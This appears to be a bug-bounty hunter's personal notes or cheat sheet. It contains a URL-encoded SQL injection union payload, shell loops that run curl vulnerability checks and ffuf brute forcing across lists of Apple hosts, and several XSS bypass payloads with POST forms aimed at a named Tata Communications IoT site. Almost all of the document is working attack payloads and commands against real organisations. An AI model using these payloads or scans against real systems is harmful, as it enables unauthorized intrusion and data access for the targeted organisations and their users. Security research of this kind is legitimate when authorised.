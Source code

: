



./certspotter 

head bugcrowd.txt | sed 's/["]//g' | sed 's/\[//' | sed 's/\]//'


head bugcrowd.txt | sed 's/[]"[]//g'







/search/members/?id`%3D520)%2f*%2funion%2f%2fselect%2f*%2f1%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%2C11%2Cunhex%28%2770726f6a656374646973636f766572792e696f%27%29%2C13%2C14%2C15%2C16%2C17%2C18%2C19%2C20%2C21%2C22%2C23%2C24%2C25%2C26%2C27%2C28%2C29%2C30%2C31%2C32%23sqli=1






cat redmik20.txt | while read host do;do curl -s -k --insecure -path-as-is "$host" |grep -HE --color 'Only one step left!|pattern2|error' && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done





FFUF 
 with bflarge:

cat /Users/rohit/applehhof3resolved.txt  | while read host do;do ffuf -u "$host/FUZZ" -w bflarge.txt.wl -mc 200 -r -c -t 1000 -v;done  | tee -a appleffufbf.txt



TATA XSS Bypass :



https://iot.tatacommunications.com/search?q=1'-(confirm)(1)-'


<form action=https://iot.tatacommunications.com/search method=POST><input type=hidden name="q" value="1&#039;-confirm`K`-&#039;"><input type=submit value=XSS></form>

<form action=https://iot.tatacommunications.com/new-deploy/search?q=1 method=POST><input type=hidden name="news_email_id" value=""><input type=hidden name="q" value="1&#039;-confirm`K`-&#039;"><input type=submit value=XSS></form>

<form action=https://iot.tatacommunications.com/new-deploy/search?q=1 method=POST><input type=hidden name="name" value=""><input type=hidden name="companyname" value=""><input type=hidden name="mobilenumber" value=""><input type=hidden name="email" value=""><input type=hidden name="get_in_touch_msg" value=""><input type=hidden name="get_in_touch_btn" value=""><input type=hidden name="q" value="1&#039;-confirm`K`-&#039;"><input type=submit value=XSS></form>







HTTP Methods / HTTP Verb

